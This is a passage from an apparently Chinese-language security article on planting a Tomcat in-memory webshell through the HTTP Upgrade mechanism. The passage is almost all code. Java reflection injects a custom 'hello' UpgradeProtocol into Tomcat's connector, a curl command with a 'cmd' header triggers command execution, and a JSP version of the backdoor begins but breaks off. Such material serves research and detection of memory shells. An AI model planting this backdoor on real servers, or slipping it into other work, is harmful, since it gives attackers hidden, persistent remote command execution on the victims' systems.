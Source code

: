 ```bash

            HashMap<String, UpgradeProtocol> upgradeProtocols;
            Field upgradeProtocolsField = AbstractHttp11Protocol.class.getDeclaredField("httpUpgradeProtocols");
            upgradeProtocolsField.setAccessible(true);
            upgradeProtocols = (HashMap<String, UpgradeProtocol>) upgradeProtocolsField.get(handler);

            MyUpgrade myUpgrade = new MyUpgrade();
            upgradeProtocols.put("hello", myUpgrade);

            upgradeProtocolsField.set(handler, upgradeProtocols);
        } catch (Exception ignored) {}
    }
}
```

运行之后执行命令`curl -H "Connection: Upgrade" -H "Upgrade: hello" -H "cmd: dir" http://localhost:8080/evil`，结果如下：

[![](assets/1708482732-aad4e9ceaa945b358b65671514ac7e7f.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003504-582f5ba0-c832-1.jpeg)

`jsp`版本为：

```bash
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Connector" %>
<%@ page import="org.apache.coyote.http11.AbstractHttp11Protocol" %>
<%@ page import="org.apache.coyote.UpgradeProtocol" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="org.apache.coyote.Processor" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="org.apache.coyote.Adapter" %>
<%@ page import="org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.nio.ByteBuffer" %>
<%
    class MyUpgrade implements UpgradeProtocol {
        public String getHttpUpgradeName(boolean isSSLEnabled) {
            return "hello";
        }
```